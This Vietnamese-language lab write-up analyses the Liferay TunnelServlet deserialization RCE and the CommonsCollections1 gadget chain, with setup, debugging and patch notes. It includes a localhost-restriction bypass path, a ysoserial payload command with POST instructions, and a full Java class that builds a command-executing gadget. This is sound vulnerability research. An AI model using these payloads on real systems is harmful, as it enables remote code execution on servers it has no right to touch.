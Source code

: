 # 🔍 Phân Tích Lỗ Hổng Liferay TunnelServlet Deserialization RCE & Gadget CommonsCollections1

## 📌 Mục tiêu
- Phân tích chi tiết lỗ hổng `unsafe deserialization` trên Liferay thông qua endpoint `/api/liferay` và `/api/spring`.
- Tìm hiểu cách hoạt động của gadget `CommonsCollections1` khi bị deserialized.
- Viết PoC khai thác lỗ hổng và tự tạo gadget để thực thi mã từ xa.

---

## 🧪 PHẦN 1: Phân Tích Lỗ Hổng Unsafe Deserialization Trên Liferay

### 1.1 Dựng môi trường test
- Tải và cài đặt **Liferay Portal 6.2 CE GA1** (hoặc phiên bản bị ảnh hưởng cụ thể được ghi nhận trong CVE).
- Môi trường:
  - Hệ điều hành: Ubuntu/Debian hoặc Windows đều được.
  - Java 7/8 (tùy phiên bản Liferay yêu cầu).
  - Tomcat (đi kèm với bản cài đặt Liferay).

### 1.2 Cài đặt môi trường debug
- IDE: **IntelliJ IDEA** hoặc **Eclipse**
- Import mã nguồn Liferay (có thể dùng mã nguồn từ GitHub hoặc build lại từ Liferay SDK).
- Cấu hình remote debugger:
  ```bash
  JAVA_OPTS="$JAVA_OPTS -agentlib:jdwp=transport=dt_socket,address=8000,server=y,suspend=n"
  ```
  Sau đó kết nối debugger từ IDE để phân tích luồng xử lý yêu cầu `/api/*`.

### 1.3 Đọc mô tả lỗi và debug
- Mô tả lỗi: https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/
- Endpoint `/api/jsonws/invoke` (TunnelServlet) thực hiện deserialize dữ liệu đầu vào (`ObjectInputStream`) mà không kiểm tra lớp đối tượng.
- Debug vào các class như:
  - `com.liferay.portal.servlet.TunnelServlet`
  - `com.liferay.portal.security.auth.HttpAuthManagerImpl`
  - `ObjectInputStream` xử lý đầu vào từ request body.

### 1.4 Bypass Localhost Restriction
- Các endpoint `/api/liferay` và `/api/spring` mặc định chỉ cho phép từ `localhost`.
- Một số phiên bản cũ có thể bị bypass bằng chuỗi như:
  ```
  /api////liferay
  /api///spring
  ```
- Phân tích: Filter URL normalization (`getRequestURI()`) không xử lý chính xác các dấu `/` hoặc `;`, dẫn đến kiểm tra IP bị bỏ qua. Debug để theo dõi `request.getRemoteAddr()` và `request.getRequestURI()`.

### 1.5 Viết mã khai thác (Exploit)
- Sử dụng **ysoserial** để tạo gadget payload với `CommonsCollections1`:
  ```bash
  java -jar ysoserial.jar CommonsCollections1 "touch /tmp/pwned" > payload.ser
  ```
- Dùng Python hoặc curl để gửi request POST đến:
  ```
  http://target:8080/api/liferay
  http://target:8080/api////spring
  ```
- Header cần có:
  ```
  Content-Type: application/x-java-serialized-object
  ```
- Debug để xác nhận lệnh đã được thực thi.

### 1.6 Liferay đã fix như thế nào?
- Chặn các chuỗi `/api/*` từ IP ngoài `localhost`.
- Kiểm tra lại đường dẫn thực tế sau chuẩn hóa URI.
- Kiểm tra loại object được deserialize bằng allowlist.
- Tắt hoàn toàn TunnelServlet trong cấu hình nếu không sử dụng.

---

## 🔬 PHẦN 2: Phân Tích Gadget CommonsCollections1

### 2.1 Dựng môi trường test
- Tạo project Maven:
  ```bash
  mvn archetype:generate -DgroupId=com.example -DartifactId=cc1-test -DarchetypeArtifactId=maven-archetype-quickstart
  ```
- Thêm dependency:
  ```xml
  <dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
  </dependency>
  ```
- Viết chương trình đọc file `payload_cc1.bin` và deserialize:
  ```java
  ObjectInputStream in = new ObjectInputStream(new FileInputStream("payload_cc1.bin"));
  in.readObject();
  ```

### 2.2 Phân tích luồng thực thi gadget
- Gadget chain:
  ```
  AnnotationInvocationHandler
    -> LazyMap
      -> ChainedTransformer
        -> InvokerTransformer
  ```
- Quá trình:
  1. `AnnotationInvocationHandler` gọi `toString()`/`equals()` trên map.
  2. `LazyMap` gọi `transform()`.
  3. `ChainedTransformer` gọi nhiều `InvokerTransformer`.
  4. Thực thi lệnh hệ thống thông qua `Runtime.getRuntime().exec()`.

### 2.3 Tự viết lại class tạo gadget
- Viết lại class Java mô phỏng ysoserial:
  ```java
package com.example;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Proxy;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollections1 {  
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {  
        // Command  
        String[] execArgs = {"calc.exe"};  
  
        // Create a ChainTransformer to invoke that command.  
        final Transformer[] transformers = new Transformer[] {  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[] {  
                        String.class, Class[].class }, new Object[] {  
                        "getRuntime", new Class[0] }),  
                new InvokerTransformer("invoke", new Class[] {  
                        Object.class, Object[].class }, new Object[] {  
                        null, new Object[0] }),  
                new InvokerTransformer("exec",  
                        new Class[] { String.class }, execArgs),  
                new ConstantTransformer(1) };  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        // Create a LazyMap  
        Map map = new HashMap<>();  
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);  
  
        // Init a `sun.reflect.annotation.AnnotationInvocationHandler` object  
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        final Constructor<?> constructor = cls.getDeclaredConstructors()[0];  
        constructor.setAccessible(true);  
        InvocationHandler lazyMapInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);  
        Map evilProxy = (Map) Proxy.newProxyInstance(CommonsCollections1.class.getClassLoader(), new Class[]{Map.class}, lazyMapInvocationHandler);  
  
        InvocationHandler serializedProxyInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);  
  
        serialize(serializedProxyInvocationHandler);  
    }  
  
    public static void serialize(Object object) throws IOException {  
        FileOutputStream fileOut = new FileOutputStream("payload_cc1.bin");  
        ObjectOutputStream out = new ObjectOutputStream(fileOut);  
        out.writeObject(object);  
        out.close();  
        fileOut.close();  
    }  
}
```
- Test với chương trình deserialize ở bước 2.1 và kiểm tra kết quả.

---

## ✅ Kết luận
- Lỗ hổng `unsafe deserialization` cực kỳ nghiêm trọng nếu kết hợp với gadget nguy hiểm như `CommonsCollections1`.
- Liferay TunnelServlet là điểm tấn công rõ ràng nếu endpoint không được bảo vệ đúng cách.
- Việc phân tích và viết lại gadget giúp hiểu rõ nội tại lỗ hổng, tăng khả năng phòng thủ và phát hiện.

---

## 📚 Tài liệu tham khảo
- https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/
- https://github.com/frohoff/ysoserial
- https://portswigger.net/web-security/deserialization
- https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data
